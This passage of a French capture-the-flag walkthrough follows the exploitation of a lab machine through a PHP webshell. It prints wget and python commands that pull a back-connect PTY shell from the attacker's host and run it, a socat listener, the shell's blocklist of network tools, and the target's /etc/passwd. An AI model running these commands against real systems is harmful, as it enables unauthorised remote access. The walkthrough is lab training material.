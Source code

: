 et dans le fichier *passwords.html* cité :  

> N.T.S Get Sticky Notes to Write Passwords in  
> 
> -Bob

Porte dérobée
-------------

Sur l'URL */dev\_shell.php* on a un shell PHP très basique.  

Ce dernier semble filtrer les commandes et on obtient par exemple le message *Get out skid lol* si on rentre *ls*. D'autres commandes ne retournent pas d'output, difficile alors de dire si la commande est absente ou si c'est le shell qui nous filtre. Dans tous les cas un *sleep 10* provoque bien une temporisation, signe que les commandes sont bien exécutées.  

Les deux commandes suivantes me permettent de passer de ce webshell à [un shell PTY](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) plus agréable :  

```bash
/usr/bin/wget http://192.168.2.240:8000/tcp_pty_backconnect.py -O /tmp/backdoor.py
python /tmp/backdoor.py
```

On aura préalablement lancé un listener pty-aware sur notre machine :  

```bash
socat file:`tty`,echo=0,raw tcp4-listen:31337
```

Une fois le shell obtenu on peut jeter un œil (par simple curiosité) aux restrictions qui étaient faites par le shell PHP, comme :  

```php
$bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
```

Sous la racine web on trouve un fichier *.hint* avec le contenu suivant :

```plain
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

En mode détective
-----------------

Comme d'habitude on note quelques utilisateurs dans */etc/passwd* :  

```plain
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash
sshd:x:116:65534::/run/sshd:/usr/sbin/nologin
proftpd:x:117:65534::/run/proftpd:/bin/false
ftp:x:118:65534::/srv/ftp:/bin/false
```
